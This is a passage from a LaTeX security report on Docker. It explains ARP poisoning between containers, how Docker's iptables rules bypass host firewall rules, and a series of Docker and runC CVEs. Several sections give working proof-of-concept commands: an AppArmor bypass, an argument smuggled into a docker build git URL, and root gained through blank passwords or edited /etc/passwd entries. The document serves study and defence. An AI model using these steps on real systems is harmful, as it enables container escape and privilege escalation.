10:16:18.368351 IP (tos 0x0, ttl 63, id 52174, offset 0, flags [DF], proto ICMP (1), length 84)
    172.17.0.2 > 172.17.0.3: ICMP echo request, id 898, seq 5, length 64
10:16:18.368415 IP (tos 0x0, ttl 64, id 8188, offset 0, flags [none], proto ICMP (1), length 84)
    172.17.0.3 > 172.17.0.2: ICMP echo reply, id 898, seq 5, length 64
...
\end{lstlisting}

We first start three containers and install dependencies. We then start to poison the ARP table of \lstinline{victim0}. We can observe this by looking at the ARP table of \lstinline{victim0} (with the \lstinline{arp} command). We see that the entries for \lstinline{172.17.0.3} and \lstinline{172.17.0.4} are the same (\lstinline{02:42:ac:11:00:04}). If we then start pinging \lstinline{victim1} from \lstinline{victim0} and looking at the \lstinline{ICMP} traffic on \lstinline{attacker}, we see that the \lstinline{ICMP} packets are routed through \lstinline{attacker}.

\subsection{Host Firewall Bypass}\label{subsection:iptables}
The Linux kernel has a built-in firewall. This firewall consists of multiple chains of rules which are stored in tables. Each table has a different purpose. For example, there is a \lstinline{nat} table for address translation and a \lstinline{filter} table for traffic filtering (which is the default).
Each table has chains of ordered rules which also have a different purpose. For example, there are the \lstinline{OUTPUT} and \lstinline{INPUT} chains in the \lstinline{filter} table that are meant for all outgoing and incoming traffic, respectively.
It is possible to configure these rules using a program called \lstinline{iptables}. All Linux based firewalls (e.g. \lstinline{ufw}) use \lstinline{iptables} as their backend.

\hfill

When the Docker Daemon is started, it sets up its own chains and rules to create isolated networks. The way it sets up its rules completely bypasses other in the firewall (because they are setup before the other rules) and by default the rules are quite permissive. This is by design, because the network stack of the host and the container are separate, including the firewall rules. It is, however, a bit counterintuitive, because one would assume that if a firewall rule is set on the host, it would apply to everything running on that host including containers (and virtual machines).

\hfill

We will look at the following simple example of bypassing a firewall rule with Docker.

\begin{lstlisting}
(host)# iptables -A OUTPUT -p tcp --dport 80 -j DROP
(host)# iptables -A FORWARD -p tcp --dport 80 -j DROP
(host)$ curl http://httpbin.org/get
curl: (7) Failed to connect to httpbin.org port 80: Connection timed out
(host)$ docker run -it --rm ubuntu /bin/bash
(cont)# apt update
(cont)# apt install curl
(cont)# curl http://httpbin.org/get
{
  "args": {},
  "headers": {
    "Accept": "*/*",
    "Host": "httpbin.org",
    "User-Agent": "curl/7.58.0"
  },
  "origin": "<redacted>",
  "url": "https://httpbin.org/get"
}
\end{lstlisting}

We first setup rules to drop all outgoing (including forwarded) \lstinline{HTTP} (not \lstinline{HTTPS}) traffic. We drop traffic going to port \lstinline{80} (the default \lstinline{HTTP} port) and try to request a \lstinline{HTTP} page on the host. As expected, it does not work. If we then try to make the exact same request in a container, it works.

\hfill

The Docker CIS Benchmark does not cover this problem. It, however, does have a guideline that ensures this problem exists. Guideline 2.3 (Ensure Docker is allowed to make changes to iptables) recommends that the Docker Daemon is allowed to change the firewall rules. This is a good recommendation, because it removes the need to configure all network configuration for Docker yourself. But that also isolates the firewall rules of the host from the containers.


\section{Vulnerabilities}\label{section:vulnerabilities}
In this section we will look at vulnerabilities that have been found in the last years. Although there have been many vulnerabilities found in the Docker ecosystem, not all of them have a large impact. Others are not fully publicly disclosed. We will look some recent, fully disclosed vulnerabilities that might be of use during a penetration test. In the \hyperref[appendix:CVE-List]{appendix} you can find a list of all other Docker related vulnerabilities I have looked at.

\hfill

All of these vulnerabilities can be prevented by using the latest version of Docker and Docker images. This is covered by guidelines 1.1.2 (Ensure that the version of Docker is up to date) and 5.27 (Ensure that Docker commands always make use of the latest version of their image), respectively.

\subsection{CVE--2019--16884}
Because of a bug in runC (1.0.0-rc8 and older versions) it was possible to mount \lstinline{/proc} in a. Because the active AppArmor profile is defined in \lstinline{/proc/self/attr/apparmor/current}, this vulnerability allows a container to bypass AppArmor completely.

\hfill

A proof of concept has been provided at\cite{CVE-2019-16884-Github}. We see that if we create a very simple mock \lstinline{/proc}, the Docker starts without the specified AppArmor profile.
\begin{lstlisting}[caption={Bypass AppArmor by mounting \lstinline{/proc}},captionpos=b]
(host)$ mkdir -p rootfs/proc/self/{attr,fd}
(host)$ touch rootfs/proc/self/{status,attr/exec}
(host)$ touch rootfs/proc/self/fd/{4,5}
(host)$ cat Dockerfile
FROM busybox
ADD rootfs /

VOLUME /proc
(host)$ docker build -t apparmor-bypass .
(host)$ docker run --rm -it --security-opt "apparmor=docker-default"  apparmor-bypass
# container runs unconfined
\end{lstlisting}

\subsection{CVE--2019--13139}
Older versions than Docker 18.09.4, had a bug were \lstinline{docker build} incorrectly parsed URLs, which allows code execution~\cite{CVE-2019-13139-STAALDRAAD}. The string supplied to \lstinline{docker build} is split on ``:'' and ``\#'' to parse the Git reference. By supplying a malicious URL, it is possible to achieve code execution.

\medskip

For example, in the following \lstinline{docker build} command, the command ``\lstinline{echo attack}'' is executed.

\begin{lstlisting}[caption={\lstinline{docker build} command execution.},captionpos=b]
(host)$ docker build "git@github.com/meh/meh#--upload-pack=echo attack;#:"
\end{lstlisting}

\lstinline{docker build} executes \lstinline{git fetch} in the background. But with the malicious command \lstinline{git fetch --upload-pack=echo attack; git@github.com/meh/meh} is executed, which in turn executes \lstinline{echo attack}.

\subsection{CVE--2019--5736}
A very serious vulnerability was discovered in runC that allows containers to overwrite the runC binary on the host. Whenever a Docker is created or when \lstinline{docker exec} is used, a runC process is run. This runC process bootstraps the container. It creates all the necessary restrictions and then executes the process that needs to run in the container. The researches found that it is possible to make runC execute itself in the container, by telling the container to start \lstinline{/proc/self/exe} which during the bootstrap is symlinked to the runC binary\cite{CVE-2019-5736-DragonSector}\cite{CVE-2019-5736-Github}. If this happens, \lstinline{/proc/self/exe} in the container will point to the runC binary on the host. The root user in the container is then able to replace the runC host binary using that reference. The next time runC is executed (a container is created or \lstinline{docker exec} is run), the overwritten binary is run instead. This, of course, is very dangerous because it allows a malicious container to execute code on the host.

\subsection{CVE--2019--5021}\label{subsection:CVE-2019-5021}
One of the most used base images (the Docker image for Alpine Linux) had a problem where the password of the \lstinline{root} user is left empty. In Linux it is possible to disable a password (what should have happened) and to leave it blank. A disabled password cannot be used, but a blank password equals an empty input. This allows non-root users to gain root rights by supplying a blank password.

\hfill

It is still possible to use the vulnerable images.
\begin{lstlisting}
(host)$ docker run -it --rm alpine:3.5 cat /etc/shadow
root:::0:::::
(host)$ docker run -it --rm alpine:3.5 sh
(cont)# apk add --no-cache linux-pam shadow
...
(cont)# adduser test
...
(cont)# su test
Password:
(cont)$ su root
(cont)#
\end{lstlisting}

\subsubsection{Side note about the CVSS score of CVE--2019--5021}

This vulnerability has a CVSS score of 9.8 (and a 10 in CVSS 2)\footnote{\url{https://nvd.nist.gov/vuln/detail/CVE-2019-5021}}. The CVSS scores are out of 10, meaning this is seen as an extremely high-risk vulnerability. But in actuality, this vulnerability is only risky in very specific cases. ``Empty \lstinline{root} password'' sounds very dangerous, but it really is not that dangerous in an isolated container that runs root by default. Only in the very specific case that a process in a container runs as a non-root user and their is some vulnerability or misconfiguration that allows \lstinline{root} to escape the container and an attacker can get control of the process in the container is this dangerous. In other words, this vulnerability is actually not likely to be used in the wild and most likely needs to be combined with another vulnerability or misconfiguration to be able to do damage.

\subsection{CVE--2018--15664}
A bug was found in Docker 18.06.1-ce-rc1 that allows processes in containers to read and write files on the host\cite{CVE-2018-15664-Openwall}\cite{CVE-2018-15664-Bugzilla}. There is enough time between the checking if a symlink is linked to a safe path (within the container) and the actual using of the symlink, that the symlink can be pointed to another file in the mean time. This allows a container to start by reading or writing a symlink to a arbitrary non-relevant file in the container, but actually read or write a file on the host.

\subsection{CVE--2018--9862}
Docker did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id\cite{CVE-2018-9862-Github}. This can be misused using the first entry of \lstinline{/etc/passwd}. This allows malicious images be created with users that grant \lstinline{root} rights when used.

\begin{lstlisting}[caption={Overwrite the \lstinline{root} user in a container},captionpos=b]
(host)$ docker run --rm -ti ... ubuntu bash
(cont)# echo "10:x:0:0:root:/root:/bin/bash" > /etc/passwd
(host)$ docker exec -ti -u 10 hello  bash
(cont)# id
uid=0(10) gid=0(root) groups=0(root)
\end{lstlisting}

\subsection{CVE--2016--3697}
Docker before 1.11.2 did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id\cite{CVE-2016-3697-Github}. This allows malicious images be created with users that grant \lstinline{root} rights when used.
\begin{lstlisting}[caption={Override \lstinline{root} user in container.},captionpos=b]
(host)$ docker run --rm -it --name=test ubuntu:latest /bin/bash
(cont)# echo '31337:x:0:0:root:/root:/bin/bash' >> /etc/passwd
(host)$ sudo docker exec -it -u 31337 test /bin/bash
(cont)# id
uid=0(root) gid=0(root) groups=0(root)
\end{lstlisting}


